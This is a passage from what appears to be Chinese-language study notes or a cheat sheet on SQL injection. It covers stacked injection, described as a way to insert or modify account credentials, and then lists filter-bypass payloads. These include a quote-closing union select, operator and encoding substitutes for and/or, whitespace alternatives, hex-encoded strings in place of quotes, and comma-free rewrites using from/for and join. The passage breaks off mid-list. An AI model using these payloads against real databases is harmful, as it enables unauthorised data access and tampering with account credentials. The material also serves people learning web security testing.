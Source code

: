 &emsp;&emsp;堆叠注入跟联合注入很像，但联合注入只能 union select ，而堆叠注入 select、update、delete、insert 都可以，操作空间更大。

&emsp;&emsp;堆叠注入一般用于插入或修改账密。

#### 【绕过】

###### 过滤--+、#

&emsp;&emsp;例如闭合方式为 '$id' ，则 `?id=-1' union select 1,database(),'2` 。

###### 过滤and、or

- 大小写变形
- 利用运算符替换：or——||、and——&&
- URL编码：#——%23
- Hex编码：~——0x7e

###### 过滤空格

- %09 TAB键（水平）
- %20 空格
- %a0 空白
- %0a 新建一行
- %0b TAB键（垂直）
- %0c 新的一页
- %0d return功能
- /**/
- /!/

###### 过滤引号

&emsp;&emsp;转为进制，如 16 进制。

```
select * from users where username='users'
==>
select * from users where username=0x7573657273
```

###### 过滤逗号

- 对于substr()、mid() 可以用 from to 代替：

  ```mysql
  select substr(database() from 1 for 1);
  
  select mid(database() from 1 for 1);
  ```

- 使用 join 代替：

  ```mysql
  union select 1,2--+
  <==>
  union select * from (select 1)a join (select 2)b--+
  ```

- 使用 like 代替：
